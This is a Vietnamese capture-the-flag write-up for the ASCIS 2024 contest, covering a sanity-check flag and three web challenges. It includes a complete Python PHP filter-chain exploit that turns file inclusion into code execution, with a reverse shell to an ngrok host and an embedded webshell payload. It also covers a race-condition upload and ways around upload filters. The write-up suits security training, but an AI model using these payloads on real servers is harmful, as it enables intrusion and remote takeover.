

## Misc

### Sanity  Check

Bài này flag được đặt ở trong phần alt của ảnh được mô tả ở đề bài



Flag: `ASCIS{WishYouWillHaveAGoodDayAtASCIS2024}`

## Web

### **Rootme bro**

- Với bài này, mình nghe web player bên mình bảo là cuối giờ btc mới đưa hint. Trong hint là source code, và trong source code là … flag!??
- Chỉ cần đổi ASCIS thành VNISA và submit là done :>

Tuy nhiên, khi mình phân tích source code để xem ý tưởng của tác giả thế nào thì phát hiện trong folder `exam/page` có một file là `file_race_condition.php`

⇒ Có lẻ mục đích của tác giả là sử dụng `Race Codition` để upload được một file php lên hệ thống rôi sau đó RCE để đọc được flag.

```php
if ($_SERVER['REQUEST_METHOD'] == 'POST') {
    $target_dir = "../uploads/";
    $user_session = $_SESSION['user_id'];

    $target_file = $target_dir .$user_session.'_'. basename($_FILES["file"]["name"]);
    $uploadOk = 1;
    

    // Move file to target directory without checks
    if (move_uploaded_file($_FILES["file"]["tmp_name"], $target_file)) {
        // Introduce a delay (simulating a potential race condition window)
        //sleep(2);

        // Check MIME type and file type
        if (checkmime($target_file) && checkFileType($target_file)) {
            echo "The file ". htmlspecialchars($target_file). " has been uploaded.<br>";
            echo "The file is stored in " . $target_file . "<br>";
            //echo "<br>";
        } else {
            unlink($target_file);
            echo "Sorry, there was an error uploading your file.<br>";
            http_response_code(403);
        }
    } else {
        //echo "Sorry, there was an error moving your file.<br>";
    }
}
```

⇒ Qua đoạn code của tác giả thì có thể thấy được file khi upload lên sẽ luôn được move vào folder uploads của người dùng, sau đó file mới được kiểm tra `mime` và `filetype` rồi mới bị xóa đi nếu như không hợp lệ.

Qua đây, có thể sử dụng Race Codition để truy cập tới file php đang được upload lên trước khi nó bị xóa đi để có thể RCE được server.

### **Train to server**

Với bài này thì khi đăng nhập thành công với tài khoản là `admin:admin` thì sẽ được đưa tới một trang có dính lỗi `LFI (Local File Include)` với parameter là `file` . Tuy nhiên, mình thử dò file flag ở một số nơi thì lại không có nên mình đoán là phải RCE nên mình đã thử dùng một số payload wrapper của PHP nhưng nó không hoạt động. Reseach trên mạng thì thấy có một bài tương tự và có sẵn payload nên mình sử dụng để RCE luôn

```php
import requests

url = "http://183.91.11.30:8889/page.php"
file_to_use = "php://temp"
command = "php -r '$sock=fsockopen(\"0.tcp.ap.ngrok.io\",18336);exec(\"sh <&3 >&3 2>&3\");'"
#<?=`$_GET[0]`;;?>
base64_payload = "PD89YCRfR0VUWzBdYDs7Pz4"

conversions = {
    'R': 'convert.iconv.UTF8.UTF16LE|convert.iconv.UTF8.CSISO2022KR|convert.iconv.UTF16.EUCTW|convert.iconv.MAC.UCS2',
    'B': 'convert.iconv.UTF8.UTF16LE|convert.iconv.UTF8.CSISO2022KR|convert.iconv.UTF16.EUCTW|convert.iconv.CP1256.UCS2',
    'C': 'convert.iconv.UTF8.CSISO2022KR',
    '8': 'convert.iconv.UTF8.CSISO2022KR|convert.iconv.ISO2022KR.UTF16|convert.iconv.L6.UCS2',
    '9': 'convert.iconv.UTF8.CSISO2022KR|convert.iconv.ISO2022KR.UTF16|convert.iconv.ISO6937.JOHAB',
    'f': 'convert.iconv.UTF8.CSISO2022KR|convert.iconv.ISO2022KR.UTF16|convert.iconv.L7.SHIFTJISX0213',
    's': 'convert.iconv.UTF8.CSISO2022KR|convert.iconv.ISO2022KR.UTF16|convert.iconv.L3.T.61',
    'z': 'convert.iconv.UTF8.CSISO2022KR|convert.iconv.ISO2022KR.UTF16|convert.iconv.L7.NAPLPS',
    'U': 'convert.iconv.UTF8.CSISO2022KR|convert.iconv.ISO2022KR.UTF16|convert.iconv.CP1133.IBM932',
    'P': 'convert.iconv.UTF8.CSISO2022KR|convert.iconv.ISO2022KR.UTF16|convert.iconv.UCS-2LE.UCS-2BE|convert.iconv.TCVN.UCS2|convert.iconv.857.SHIFTJISX0213',
    'V': 'convert.iconv.UTF8.CSISO2022KR|convert.iconv.ISO2022KR.UTF16|convert.iconv.UCS-2LE.UCS-2BE|convert.iconv.TCVN.UCS2|convert.iconv.851.BIG5',
    '0': 'convert.iconv.UTF8.CSISO2022KR|convert.iconv.ISO2022KR.UTF16|convert.iconv.UCS-2LE.UCS-2BE|convert.iconv.TCVN.UCS2|convert.iconv.1046.UCS2',
    'Y': 'convert.iconv.UTF8.UTF16LE|convert.iconv.UTF8.CSISO2022KR|convert.iconv.UCS2.UTF8|convert.iconv.ISO-IR-111.UCS2',
    'W': 'convert.iconv.UTF8.UTF16LE|convert.iconv.UTF8.CSISO2022KR|convert.iconv.UCS2.UTF8|convert.iconv.851.UTF8|convert.iconv.L7.UCS2',
    'd': 'convert.iconv.UTF8.UTF16LE|convert.iconv.UTF8.CSISO2022KR|convert.iconv.UCS2.UTF8|convert.iconv.ISO-IR-111.UJIS|convert.iconv.852.UCS2',
    'D': 'convert.iconv.UTF8.UTF16LE|convert.iconv.UTF8.CSISO2022KR|convert.iconv.UCS2.UTF8|convert.iconv.SJIS.GBK|convert.iconv.L10.UCS2',
    '7': 'convert.iconv.UTF8.UTF16LE|convert.iconv.UTF8.CSISO2022KR|convert.iconv.UCS2.EUCTW|convert.iconv.L4.UTF8|convert.iconv.866.UCS2',
    '4': 'convert.iconv.UTF8.UTF16LE|convert.iconv.UTF8.CSISO2022KR|convert.iconv.UCS2.EUCTW|convert.iconv.L4.UTF8|convert.iconv.IEC_P271.UCS2'
}

# generate some garbage base64
filters = "convert.iconv.UTF8.CSISO2022KR|"
filters += "convert.base64-encode|"
# make sure to get rid of any equal signs in both the string we just generated and the rest of the file
filters += "convert.iconv.UTF8.UTF7|"

for c in base64_payload[::-1]:
        filters += conversions[c] + "|"
        # decode and reencode to get rid of everything that isn't valid base64
        filters += "convert.base64-decode|"
        filters += "convert.base64-encode|"
        # get rid of equal signs
        filters += "convert.iconv.UTF8.UTF7|"

filters += "convert.base64-decode"

final_payload = f"php://filter/{filters}/resource={file_to_use}"

r = requests.get(url, params={
    "0": command,
    "action": "include",
    "file": final_payload
})

print(r.text)
```

RCE server và mình phát hiện flag nằm ở cùng thư mục và nó nằm trong Dockerfile =)))))

⇒ Đáng ra nên fuzz bài này để tìm flag nhanh hơn :> 

### **DocMan**

Bài này được cung cấp source code.

Mình thử sử dụng trang web để xem các tính năng của nó thì phát hiện trang web cho phép upload các file `pdf|word`  và cho phép xem hoặc tải xuống các file được upload lên. Tuy nhiên, khi reload lại trang thì đường dẫn tới các file này biến mất???

Oke, tới đây mình phân tích source code và để ý thấy ở file `lib.php` (Đây là file php dùng để xử lý và filter các file upload lên).

```php
function checkFileName($name) {
  return preg_match("/\.(docx|pdf)$/", strtolower($name));
}
function checkFileType($type) {
  return preg_match("/^(application\/vnd\.openxmlformats\-officedocument\.wordprocessingml\.document|application\/pdf)$/", strtolower($type));
}
function checkFileSize($size) {
  return ($size >= 1000 && $size <= 100000 ? true : false);
}
function checkFileMagic($fn) {
  $handle = fopen($fn, 'r');
    $magic = strtoupper(bin2hex(fread($handle, 8)));
    fclose($handle);
  return ($magic == "504B030414000600" || substr($magic, 0, 8)  == "25504446");
}
```

- Check extension: extension cuối của file phải là docx hoặc pdf ⇒ Có thể chèn các extension khác vào như `a.php .pdf`
- Check File type: file type của các file phải thuộc doc hoặc pdf ⇒ Dùng burp suite hoặc các công cụ chỉnh sửa request khác có thể bypass được.
- Check file size: ở đây, đoạn code sẽ check size ⇒ Có thể chèn dữ liệu vào file để bypass
- Check file magic: ở đây đoạn code sẽ check 8 byte đầu của file có khớp với các byte mà dev lập trình sẵn hay không ⇒ Có thể bypass bằng burp

⇒ Tổng hợp lại tất cả, lúc này chỉ cần upload một file php với các lớp bypass trên thì có thể RCE được server và đọc được flag.
